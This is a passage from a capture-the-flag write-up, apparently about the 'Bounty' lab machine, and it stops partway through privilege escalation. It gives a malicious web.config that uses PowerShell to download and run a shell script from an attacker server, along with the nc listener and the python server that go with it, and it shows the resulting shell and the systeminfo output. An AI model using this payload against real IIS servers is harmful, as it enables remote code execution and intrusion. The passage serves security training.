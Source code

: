 Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Next, change the _web.config_ file to download the PowerShell script and execute it.

```text
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

Start up a python server in the directory that the shell script resides in.

```text
python -m SimpleHTTPServer 5555
```

Upload the _web.config_ file and view it.

![](https://miro.medium.com/max/678/1*XNUp2itsgs1YEkcYHUVBBQ.png)

We get a shell! Let’s try to grab the _user.txt_ flag.

```text
PS C:\windows\system32\inetsrv> cd c:\Users\merlin\Desktop
PS C:\Users\merlin\Desktop> dir
PS C:\Users\merlin\Desktop>
```

The _Desktop_ directory seems to be empty. Let’s use the _attrib_ command to see if the file is hidden.

![](https://miro.medium.com/max/647/1*Cp3Gv6exqqckboPAHAii7g.png)

The file is there, it’s just hidden. View the _user.txt_ flag.

![](https://miro.medium.com/max/702/1*UDAbyPeDQ1eUrfqgvLTF8w.png)

## Privilege Escalation <a id="8ece"></a>

Run the _systeminfo_ command.

```text
PS C:\Users\merlin\Desktop> systeminfoHost Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          2/19/2020, 5:04:41 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
```